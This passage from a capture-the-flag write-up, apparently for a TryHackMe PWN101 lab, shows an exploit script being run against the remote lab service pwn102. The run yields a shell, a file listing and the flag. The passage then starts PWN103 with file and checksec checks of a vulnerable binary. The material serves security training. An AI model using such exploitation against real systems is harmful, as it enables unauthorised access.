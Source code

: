 ```
drwxr-xr-x 4 mark mark 4096 Feb 14 15:49 ..
-rw-r--r-- 1 mark mark 1032 Feb 14 16:31 exploit.py
-rwxr-xr-x 1 mark mark 8720 Feb 14 15:49 pwn102.pwn102
$ 
```

Now i'll run it on the remote server

```
└─$ python3 exploit.py REMOTE 10.10.210.174 9002      
[+] Opening connection to 10.10.210.174 on port 9002: Done
[*] Switching to interactive mode
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 102          

I need badf00d to fee1dead
Am I right? Yes, I need c0ff33 to c0d3
$ ls -al
total 44
drwx------  3 pwn102 pwn102 4096 Feb  8  2022 .
drwxr-xr-x 12 root   root   4096 Feb  8  2022 ..
lrwxrwxrwx  1 pwn102 pwn102    9 Feb  8  2022 .bash_history -> /dev/null
-rw-r--r--  1 pwn102 pwn102  220 Apr  4  2018 .bash_logout
-rw-r--r--  1 pwn102 pwn102 3771 Apr  4  2018 .bashrc
drwxrwxr-x  3 pwn102 pwn102 4096 Feb  8  2022 .local
-rw-r--r--  1 pwn102 pwn102  807 Apr  4  2018 .profile
-rwxrwxrwx  1 pwn102 pwn102   34 Jan 28  2022 flag.txt
-rwxrwxr-x  1 pwn102 pwn102 8720 Feb  8  2022 pwn102
-rwxrwxrwx  1 pwn102 pwn102  964 Feb  8  2022 pwn102.c
$ cat flag.txt
THM{y3s_1_n33D_C0ff33_to_C0d3_<3}
$
```

#### Challenge 3 = PWN103

#### Basic File Checks

```
└─$ file pwn103.pwn103
pwn103.pwn103: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=3df2200610f5e40aa42eadb73597910054cf4c9f, for GNU/Linux 3.2.0, not stripped
                                                                                                                                                                                                                   
┌──(venv)─(mark㉿haxor)-[~/…/B2B/THM/Pwn101/pwn103]
└─$ checksec pwn103.pwn103 
[!] Could not populate PLT: invalid syntax (unicorn.py, line 110)
[*] '/home/mark/Desktop/B2B/THM/Pwn101/pwn103/pwn103.pwn103'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
